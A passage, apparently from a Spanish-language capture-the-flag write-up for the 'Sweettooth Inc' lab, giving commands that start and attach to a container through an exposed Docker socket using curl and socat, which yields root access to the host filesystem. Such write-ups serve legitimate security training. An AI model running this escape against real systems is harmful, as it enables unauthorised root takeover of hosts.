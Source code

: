 	Inicie el contenedor recién creado:

```bash
./curl-amd64 -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```

3. Adjuntar al contenedor: use `socat` para establecer una conexión con el contenedor, lo que permite la ejecución de comandos dentro de él.

```
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

```

Después de configurar la conexión `socat`, puede ejecutar comandos directamente en el contenedor con acceso de nivel raíz al sistema de archivos del host.

<figure><img src="../.gitbook/assets/Sweettooth Inc/curl.png" alt=""><figcaption></figcaption></figure>
